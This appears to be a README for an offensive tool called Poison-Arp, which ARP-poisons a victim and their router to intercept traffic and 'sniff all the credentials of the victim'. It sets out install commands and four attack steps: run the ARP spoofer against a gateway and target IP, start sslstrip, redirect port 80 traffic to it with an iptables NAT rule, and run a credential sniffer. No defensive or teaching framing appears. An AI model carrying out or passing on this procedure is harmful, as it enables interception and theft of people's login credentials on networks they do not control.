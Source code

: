 # Poison-Arp

This is tool can poison the Arp tables of the victim as well as router and sniff all the credentials of the victim.It works with both HTTP and HTTPS but not with HSTS.

Here I am going to import scapy module which is not inbuit in python3 so you have to install it manually by the following command:-

$ pip3 install scapy-python3

or 

$ apt-get install scapy-python3

or
    
    $ git clone https://github.com/phaethon/scapy
    $ cd scapy
    $ sudo python3 setup.py install
    
   

Step 1:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoofy.png)

Step 2: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 3: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 4: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![](/images/login_new.png)








